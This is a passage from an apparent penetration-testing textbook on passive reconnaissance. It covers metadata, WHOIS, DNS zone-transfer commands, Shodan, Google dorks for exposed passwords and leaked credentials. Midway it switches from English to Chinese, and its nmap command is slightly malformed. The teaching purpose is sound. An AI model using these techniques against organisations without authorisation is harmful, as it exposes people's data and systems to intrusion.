At this point in the information‐gathering process, it isn't uncommon to find that the organization has other locations, subsidiaries, or remote sites. Knowing about those locations or other divisions will help you identify some of the organization's structure, but you will usually need to search for more information to really understand how the target is logically structured.

#### Electronic Documents and Metadata

Electronic documents can often help you understand how an organization is structured. They can also provide a wealth of other information, ranging from technologies used, to personnel names and email addresses, as well as internal practices and procedures. Along with the information that is contained in the documents, many penetration testers will also carefully review the document metadata to identify additional useful information. Tools like `ExifTool` are designed to allow you to quickly and easily view document metadata, as you can see in `Figure 3.1`, which shows the metadata from a photo taken with a Nexus 6P phone.



`FIGURE 3.1` ExifTool metadata with location

In addition to tools like `ExifTool` that excel at exposing metadata for individual files, metadata scanning tools like `Fingerprinting Organizations with Collected Archives (FOCA)` can be used to find metadata. FOCA scans using a search engine—either Google, Bing, or DuckDuckGo—and then compiles metadata information from files like Microsoft Office documents, PDF files, and other file types like SVG and InDesign files. `Figure 3.2` shows FOCA gathering server information. Once servers are identified, metadata, including detail on users, folders, software, email, operating systems, passwords, and servers, can be automatically gathered.



`FIGURE 3.2` FOCA metadata acquisition

Microsoft Office files, PDFs, and many other types of common business files include metadata that can be useful, ranging from authors and creation dates/times to software versions. In many cases, the metadata of a file can be as useful, or more so, than its actual text or other data!

It is important to remember that the electronic documents that are currently accessible are not the only documents that you can recover for an organization. Web archives like the Internet Archive ([`https://archive.org`](https://archive.org)) provide point‐in‐time snapshots of websites and other data. Even when organizations think that they have removed information from the web, copies may exist in the Internet Archive or elsewhere, including search engine caches and other locations.

#### Employees

Finding out who is employed by an organization can sometimes be as simple as using an online directory or checking its posted organizational charts. In most cases, identifying employees will take more work. Common techniques include leveraging scripting of social media like LinkedIn and Facebook, as well as reviewing corporate email addresses, publications, and public records. Social engineering techniques can also be useful, particularly when you are searching for information on a specific individual or group, and social media can provide details about who those key contacts are.

### Infrastructure and Networks

Information about the infrastructure, technologies, and networks that an organization uses is often one of the first things that a penetration tester will gather in a passive information search. Once you have a strong understanding of the target, you can design the next phase of your penetration test.

External footprinting is part of most passive reconnaissance and is aimed at gathering information about the target from external sources. That means gathering information about domains, IP ranges, and routes for the organization.

#### Domains

Domain names are managed by domain name `registrars`. Domain registrars are accredited by generic top‐level domain (`gTLD`) registries and/or country code top‐level domain (`ccTLD`) registries. This means that registrars work with the domain name registries to provide registration services—the ability to acquire and use domain names. Registrars provide the interface between customers and the domain registries and handle purchase, billing, and day‐to‐day domain maintenance, including renewals for domain registrations.

The Domain Name System (`DNS`) is often one of the first stops when gathering information about an organization. Not only is `DNS` information publicly available, it is often easily connected to the organization by simply checking for WHOIS information about its website. With that information available, you can find other websites and hosts to add to your organizational footprint.

#### WHOIS

Domain ownership and registration is maintained by registrars, with each registrar covering a specific portion of the world. The central authority is the Internet Assigned Numbers Authority (`IANA`). `IANA` manages the DNS root zone and thus is a good starting place for searches at [`https://www.iana.org`](https://www.iana.org). Once you know which regional authority you should query, you can select the appropriate site to visit:

*   `AFRINIC` (Africa): [`http://www.afrinic.net`](http://www.afrinic.net)

*   `APNIC` (Asia‐Pacific): [`http://www.apnic.net`](http://www.apnic.net)

*   `ARIN` (North America, parts of the Caribbean, and North Atlantic islands): [`http://ws.arin.net`](http://ws.arin.net)

*   `LACNIC` (Latin America and the Caribbean): [`http://www.lacnic.net`](http://www.lacnic.net)


*   `RIPE` (欧洲、俄罗斯、中东和中亚部分地区): [`www.ripe.net`](http://www.ripe.net)

每个区域 NIC 都提供 `WHOIS` 服务。WHOIS 允许您搜索域名和 IP 地址块的注册用户数据库，并可根据注册信息提供有关组织或个人的有用信息。如 图 3.3 中所示的 Google 示例 WHOIS 查询，您可以看到有关 Google 的信息（如公司总部位置、联系信息及其主要名称服务器）均由 WHOIS 查询返回。



图 3.3 [google.com](http://google.com) 的 WHOIS 查询数据

此外，组织的外部 DNS 信息作为其 WHOIS 信息的一部分提供，为基于 DNS 的信息收集提供了良好的起点。DNS 信息还将包括域的技术联系人和管理员联系人，提供有关谁负责该域的关键信息，以及社交工程和 OSINT 活动的潜在联系人。

除了所查询域名或主机的 DNS 信息外，还可通过主动扫描、基于网络流量或日志收集被动信息，甚至通过审查组织文档来识别其他 DNS 服务器。

还可以通过在 Linux 中使用 `host` 命令收集其他信息，该命令将提供系统的 IPv4 和 IPv6 地址及其电子邮件 (MX) 服务器的信息，如 图 3.4 所示。需要注意的是，如果您对 [google.com](http://google.com) 运行相同的命令，则不会看到与 [google.com](http://google.com) 关联的电子邮件服务器！



图 3.4 [google.com](http://google.com) 的 host 命令响应

### DNS 和 Traceroute 信息

DNS 将 [google.com](http://google.com) 等域名转换为 IP 地址，并将 IP 地址转换为域名。因此，DNS 查询对于渗透测试人员来说是一个有用的工具，他们可以根据 IP 范围查找主机，或根据主机名查找 IP。由于 DNS 信息通常包含有关组织的有用信息（如关键联系人），如果组织未使用域名注册商提供的安全功能，您可以通过这种方式收集有关责任方的其他信息。在 Windows、Linux 和 macOS 系统上执行此操作的命令是 `nslookup`。图 3.5 显示了对 [netflix.com](http://netflix.com) 进行 `nslookup` 的结果。像许多主要网站一样，Netflix 使用内容分发网络，这意味着查找 [netflix.com](http://netflix.com) 将解析为多个主机。Netflix 基础架构足够智能，可以根据运行 `nslookup` 的位置将此查询指向美国区域。如果您在世界其他地方运行相同的命令，您可能会看到不同的答案！



图 3.5 [netflix.com](http://netflix.com) 的 `nslookup`

### SSL 和 TLS

收集信息的另一个来源是通过组织为其服务使用的 TLS 证书。例如，仅查看 [google.com](http://google.com) 的证书信息，即可在主题备用名称下提供可能感兴趣的其他域的信息，如下面的部分列表所示：

```
DNS Name=*.google.com
DNS Name=*.appengine.google.com
DNS Name=*.bdn.dev
DNS Name=*.cloud.google.com
DNS Name=*.crowdsource.google.com
DNS Name=*.datacompute.google.com
DNS Name=*.googleadapis.com
DNS Name=*.googlevideo.com
DNS Name=*.gstatic.cn
DNS Name=android.com
DNS Name=g.co
DNS Name=urchin.com
DNS Name=youtu.be
DNS Name=youtube.com
DNS Name=youtubeeducation.com
DNS Name=youtubekids.com
DNS Name=yt.be
DNS Name=android.clients.google.com
DNS Name=developer.android.google.cn
DNS Name=source.android.google.cn
```

TLS 证书可以提供关于系统、域名甚至组织内个人的大量易于访问的信息。它们甚至可以成为系统维护不善的指标。如果您发现过期的证书，这可能是一个有用的指标，表明系统或设备没有得到妥善维护和更新，并且可能存在其他缺陷或配置错误。

### 区域传输

DNS 区域传输 (AXFR) 是一种旨在用于在 DNS 服务器之间复制 DNS 数据库的事务。当然，这意味着区域传输中包含的信息可以为渗透测试人员提供大量信息，并且大多数 DNS 服务器都会禁用区域传输或将其保护良好。了解如何进行区域传输对于渗透测试人员来说仍然是一项潜在有用的技能，您应该了解进行区域传输的三种最常见方法：

*   `host`:

    ```
    host -t axfr domain.name dns-server
    ```

*   `dig`:

    ```
    dig axfr @target.nameserver.com domain.name
    ```

*   `nmap` (使用 Nmap 脚本引擎 [NSE]):

    ```
    nmap –script dns-zone-transfer.nse –script-args dns-zone-transfer.domain<domain> -p53 <hosts>
    ```

区域传输将向您显示大量数据，包括名称服务器、主要联系人、序列号、更改之间的时间、域的最小生存时间、MX 记录、纬度和经度以及其他 TXT 记录，这些记录可以显示各种有用信息。当然，区域传输还将包含服务记录、IP 地址映射以及其他信息。

如果无法进行区域传输，仍可从公共 DNS 通过暴力破解收集 DNS 信息。您可以通过为组织使用的每个 IP 地址发送 DNS 查询来实现此操作，从而收集有用的系统列表。

### IP 范围和地址

一旦知道系统正在使用的 IP 地址，您就可以查找其所在 IP 范围的信息。这可以提供有关公司或其使用的托管服务的信息。

IP 地址或主机名也可用于收集有关给定 IP 地址的系统或设备周围网络拓扑的信息。获得 IP 地址后，首先要做的事情之一是查找谁拥有该 IP 范围。您可以在 [`www.whois.com/whois/`](https://www.whois.com/whois/) 等网站上执行此操作。如果您检查在 图 3.5 中找到的最终 IP 地址 (`52.41.111.100`)，您可以看到它由 Amazon 拥有，如 图 3.6 所示。如果我们正在对 Netflix 的网络进行渗透测试，扫描 Amazon 可能会违反我们的交战规则或范围，因此这种研究和审查非常重要！



图 3.6 `52.41.111.100` 的 WHOIS

现在我们知道了谁拥有它，我们还可以探索到该 IP 的路由。使用 `traceroute` (Windows 系统上的 `tracert`)，您可以看到数据包到达主机所走的路径。由于互联网的设计允许流量选择最佳路径，您在前往系统的过程中可能会看到多条不同的路径，但通常会发现最后几个响应保持不变。这些通常是组织网络中的本地路由器和其他网络设备，了解流量如何到达系统可以让您深入了解其内部网络拓扑。在 图 3.7 中，您可以看到在 [netflix.com](http://netflix.com) 的 `traceroute` 中，某些系统不响应主机名数据（由星号和“请求超时”条目表示），并且最后两个系统仅返回 IP 地址。




FIGURE 3.7 `tracert` of [netflix.com](http://netflix.com)

当组织使用云托管基础设施或托管服务时，这一切都可能变得更加复杂。作为渗透测试人员，您需要仔细验证您遇到的服务和系统的托管位置，并确保您有权对其进行测试。您可能会遇到混合环境，这些环境结合了本地、托管和/或第三方组件，您必须了解您采取的任何操作的潜在影响。

#### 路由

您可能会查找的最后一种网络信息是路由信息。组织的路由信息可以深入了解其外部网络连接的设置方式。公共 BGP 路由信息服务器，称为 *BGP looking glasses*，使这些信息易于访问。您可以在 [`www.bgp4.as/looking-glasses`](http://www.bgp4.as/looking-glasses) 找到它们的列表，包括全球和区域服务器。

#### 无线网络

收集无线网络信息可能涉及一种称为 *wardriving* 的技术。Wardriving 是在移动过程中（通常是在车内）扫描无线网络的过程，但在开放区域步行也是一种常见过程——尽管有些人可能坚持称之为 warwalking。Wardriving 数据随后可以与 [Wigle.net](http://wigle.net) 等数据源匹配，这是一个开放无线网络数据库，或者可以根据每个接入点的信号强度使用三角测量进行映射。如果您想了解更多关于该主题的信息，这里有更深入的介绍：[`osintcurio.us/2019/01/15/tracking-all-the-wifi-things/`](https://osintcurio.us/2019/01/15/tracking-all-the-wifi-things/)。

### 安全搜索引擎

按域名或 IP 地址搜索组织暴露系统的快速方法是使用安全搜索引擎。这些搜索引擎提供了一种方式，无需主动探测网络即可审查主机、服务和其他详细信息。

## Shodan

Shodan 是最流行的安全搜索引擎之一，它提供预构建的搜索以及针对工业控制系统、数据库和其他常见搜索查询的搜索类别。Figure 3.8 显示了使用 Shodan 识别的主机的结果。请注意，此结果告诉我们目标有一台启用默认密码的 Cisco 设备——这对渗透测试人员来说是一个快速的突破口！



FIGURE 3.8 Shodan result from an exposed Cisco device

#### Censys

与 Shodan 类似，Censys 是一个面向安全的搜索引擎。当您在 Censys 中深入查看主机时，如果可用，您还会发现 GeoIP 信息、主机暴露服务的全面摘要，以及针对高度详细信息的钻取链接。Figure 3.9 显示了与 Figure 3.8 中相同的暴露 Cisco IOS 主机，这次是从更广泛的视角查看。

安全搜索引擎可能并不总是拥有完全最新的信息，因此它们不是渗透测试人员的最终答案，但它们是被动信息收集和分析中非常有效的早期步骤。在 Shodan、Censys 和其他搜索引擎出现之前，收集这类数据曾需要渗透测试人员进行主动扫描。现在，测试人员可以在不进行交互的情况下收集有用信息！



FIGURE 3.9 Censys IOS host view[](http://netflix.com)

### Google Dorks 和搜索引擎技术

尽管 Censys 和 Shodan 以及其他面向安全的搜索引擎对于被动侦察非常有用，但您也可以使用 Google 等传统搜索引擎来执行信息收集活动。Google Hacking Database (GHDB) 如果您需要可能与您的情报收集相关的想法，可能会非常有用。您可以在 [`www.exploit-db.com/google-hacking-database`](https://www.exploit-db.com/google-hacking-database) 找到它。

Bing、Google、DuckDuckGo 等搜索引擎可以用于查找简历、电子邮件地址、电话号码、按类型或日期查找的文件以及其他有用信息。渗透测试人员需要了解如何使用常见搜索引擎构建查询以获取此类信息。Figure 3.10 显示了通过 Google 在 .gov 域的网站上对 Excel 电子表格中的单词 *password* 进行的简单搜索。请注意，结果显示了 EPA 网站的 API 信息以及密歇根州政府网站上的测试样本，密码为“passw0rd”。它们不是关键暴露，但它们展示了针对正确类型的信息进行简单搜索引擎搜索的威力。



FIGURE 3.10 A Google search for passwords.xls

### 密码泄露和其他违规数据

渗透测试人员还可能使用之前泄露的凭据作为其测试的一部分。尽管大多数组织都努力遵循最佳实践，但凭据重用很常见，如果不需要多因素身份验证，重用的密码和另一个网站的泄露可能提供一个轻松的入口。像 [haveibeenpwned.com](http://haveibeenpwned.com) 这样的网站和像 pwnedOrNot 这样的工具提供了对现有密码泄露信息的便捷访问。

### 源代码仓库

像 GitHub 这样的源代码仓库是现代渗透测试人员的关键被动侦察工具。偶尔会发生提供密码或密钥的数据泄露，但渗透测试人员更有可能找到关于配置、接口、IP 地址和域名以及其他有用细节的信息，这些信息可以帮助指导他们的渗透测试工作。当您探索新的渗透测试目标时，公共和私有源代码仓库都应该是您的检查清单的一部分。同时，您应该记住，像 CloudFormation、Ansible、Puppet、Chef 和 SaltStack 这样的基础设施即代码工具也会生成可获取和分析的有用代码，仓库可能包含的不仅仅是应用程序代码！

### 被动枚举和云服务

由于共享基础设施，云和托管服务的被动枚举任务可能具有挑战性。不安全地假设 IP 地址将保持固定，系统或服务不共享，或者您为服务或系统找到的地理信息是这些服务可能部署或访问的唯一可用区或区域。此外，像 Amazon CloudFront、Cloudflare、Akamai 和其他 DDoS 防护及内容分发网络这样的工具可以掩盖组织使用的实际底层基础设施和系统。

全面知识测试可以帮助解决这个问题，让您专注于关键系统和服务。如果您正在进行部分知识或零知识渗透测试，每当底层基础设施可能不像看起来那么简单或涉及第三方时，进行额外的侦察和验证至关重要。

## 主动侦察和枚举

在此阶段的渗透测试中，构建特定类型的所有资源或潜在目标列表非常重要。一旦通过被动侦察方法收集了足够的开源情报，测试人员通常会转入主动侦察阶段，其目标是首先构建，然后缩小主机、网络或其他目标的列表。每种技术各不相同，因此您应该熟悉以下每种方法。

### 主机


